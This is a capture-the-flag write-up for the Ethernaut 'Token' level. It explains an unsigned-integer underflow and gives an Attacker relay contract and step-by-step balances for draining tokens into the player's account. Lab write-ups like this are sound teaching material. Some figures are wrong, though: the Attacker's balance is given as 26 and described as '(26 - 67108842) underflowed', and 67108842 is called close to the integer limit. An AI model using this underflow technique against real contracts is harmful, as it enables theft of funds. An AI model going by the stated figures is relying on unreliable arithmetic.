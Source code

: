 # [5. Token](https://ethernaut.openzeppelin.com/level/0x63bE8347A617476CA461649897238A31835a32CE)

This attack makes use of the integer overflow or integer underflow exploit. In fact, the statement `require(balances[msg.sender] - _value >= 0);` because the calculation is happening on unsigned integers! Of course, they will always be greater than or equal to 0. Here too we needed a buddy to help us, which is the contract below:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Token {
  function transfer(address _to, uint _value) external returns (bool);
}

contract Attacker {
  Token tokenTarget;

  constructor(address _target) {
    tokenTarget = Token(_target);
  }

  function transfer(address _to, uint _value) external returns (bool) {
    return tokenTarget.transfer(_to, _value);
  }
}
```

The steps are simple:

1. We start with 20 tokens, as the task described. We send an arbitrary amount of (lets say 4) tokens to the Attacker contract.
    - Player has 16 tokens
    - Attacker has 4 tokens
2. We can now send from Attacker to the Player a HUGE amount of tokens, I sent 67108842. It is important to note that this value is a bit smaller than the upper-limit to avoid overflowing back.
    - Player has 67108858 tokens. This is equal to (16 + 67108842).
    - Attacker has 26 tokens. This is equal to (26 - 67108842) underflowed.

Why did we need the buddy attacker? Because in the code you can see that the two lines:

```solidity
balances[msg.sender] -= _value;
balances[_to] += _value;
```

cancel eachother out if both `msg.sender` and `_to` are the same.
